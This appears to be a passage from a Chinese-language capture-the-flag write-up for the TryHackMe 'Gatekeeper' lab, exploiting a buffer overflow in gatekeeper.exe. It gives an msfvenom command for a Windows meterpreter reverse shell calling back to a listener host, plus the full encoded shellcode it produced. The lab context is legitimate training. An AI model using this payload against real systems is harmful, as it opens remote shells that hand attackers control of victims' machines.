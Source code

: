 C:\Users\max\Desktop>whoami
whoami
win-mrft0tavd10\max

C:\Users\max\Desktop>

```

到此为止，我们在本地靶机成功验证gatekeeper.exe存在一个缓冲区溢出漏洞。

# 正式攻击

为了后续渗透提权方便，我们的payload换成了meterpreter
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.21.169  LPORT=4444 EXITFUNC=thread -b "\x00\x01\x0a" -f c

```
┌──(root💀kali)-[~/tryhackme/Gatekeeper]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.21.169  LPORT=4444 EXITFUNC=thread -b "\x00\x01\x0a" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 402 (iteration=0)
x86/shikata_ga_nai chosen with final size 402
Payload size: 402 bytes
Final size of c file: 1713 bytes
unsigned char buf[] = 
"\xbb\xa9\xcd\x79\xdd\xdb\xdf\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1"
"\x5e\x31\x5f\x15\x03\x5f\x15\x83\xc7\x04\xe2\x5c\x31\x91\x52"
"\x9e\xca\x62\x0d\xaf\x18\x06\x46\x9d\xac\x4e\xbd\xaa\x9f\x5c"
"\xb5\xfe\x0b\x52\x7e\xb4\x15\x5d\x7f\xc3\x28\xb5\x4e\x13\x60"
"\xf9\xd1\xef\x7b\x2e\x32\xce\xb3\x23\x33\x17\x02\x49\xdc\xc5"
"\xc2\x3a\x70\xf9\x67\x7e\x49\xf8\xa7\xf4\xf1\x82\xc2\xcb\x86"
"\x3e\xcc\x1b\x36\x35\x86\x83\x3c\x11\x37\xb5\x91\x24\xfe\xc1"
"\x29\x6f\x30\xd5\xd9\x5b\xb9\x28\x08\x92\x7d\xeb\x7b\xd9\xd1"
"\xed\x44\xd9\xc9\x9b\xbe\x1a\x77\x9c\x04\x61\xa3\x29\x9b\xc1"
"\x20\x89\x7f\xf0\xe5\x4c\x0b\xfe\x42\x1a\x53\xe2\x55\xcf\xef"
"\x1e\xdd\xee\x3f\x97\xa5\xd4\x9b\xfc\x7e\x74\xbd\x58\xd0\x89"
"\xdd\x04\x8d\x2f\x95\xa6\xd8\x50\x56\x39\xe5\x0c\xc1\xf6\x28"
"\xaf\x11\x90\x3b\xdc\x23\x3f\x90\x4a\x08\xc8\x3e\x8c\x19\xde"
"\xc0\x42\xa1\x8e\x3e\x63\xd2\x87\x84\x37\x82\xbf\x2d\x38\x49"
"\x3f\xd1\xed\xe4\x35\x45\x04\xf4\x5c\x3c\x70\x04\x5e\x2f\xdd"
"\x81\xb8\x1f\x8d\xc1\x14\xe0\x7d\xa2\xc4\x88\x97\x2d\x3b\xa8"
"\x97\xe7\x54\x43\x78\x5e\x0d\xfc\xe1\xfb\xc5\x9d\xee\xd1\xa0"
"\x9e\x65\xd0\x55\x50\x8e\x91\x45\x85\xe9\x59\x95\x56\x9c\x59"
"\xff\x52\x36\x0d\x97\x58\x6f\x79\x38\xa2\x5a\xf9\x3e\x5c\x1b"
"\xc8\x35\x6b\x89\x74\x21\x94\x5d\x75\xb1\xc2\x37\x75\xd9\xb2"
"\x63\x26\xfc\xbc\xb9\x5a\xad\x28\x42\x0b\x02\xfa\x2a\xb1\x7d"
"\xcc\xf4\x4a\xa8\x4e\xf2\xb5\x2f\x79\x5b\xde\xcf\x39\x5b\x1e"
"\xa5\xb9\x0b\x76\x32\x95\xa4\xb6\xbb\x3c\xed\xde\x36\xd1\x5f"
"\x7e\x47\xf8\x3e\xde\x48\x0f\x9b\xd1\x33\x60\x1c\x12\xc4\x68"
"\x79\x12\xc5\x94\x7f\x2e\x10\xad\xf5\x71\xa1\x8a\x16\x6c\x0f"
"\xe7\xbe\x29\xda\x4a\xa3\xc9\x31\x88\xda\x49\xb3\x71\x19\x51"
"\xb6\x74\x65\xd5\x2b\x05\xf6\xb0\x4b\xba\xf7\x90";
